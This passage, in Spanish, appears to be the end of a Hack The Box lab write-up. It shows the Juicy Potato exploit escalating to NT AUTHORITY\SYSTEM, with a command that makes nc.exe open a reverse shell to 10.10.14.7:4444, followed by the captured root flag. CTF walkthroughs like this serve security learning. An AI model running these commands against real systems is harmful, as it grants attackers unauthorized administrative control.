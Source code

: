Y con el **Juicy Potato**, usaremos el siguiente comando:

```powershell wrap=false
PS C:\windows\temp\privesc> ./JP.exe 
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
PS C:\windows\temp\privesc> ./JP.exe -t * -p C:\Windows\System32\cmd.exe -l 1337 -a "/c C:\Windows\Temp\privesc\nc.exe -e cmd 10.10.14.7 4444"
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

```powershell wrap=false
C:\Users\Administrator\Desktop>type root.txt
284de6cecaedccd...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/142)

---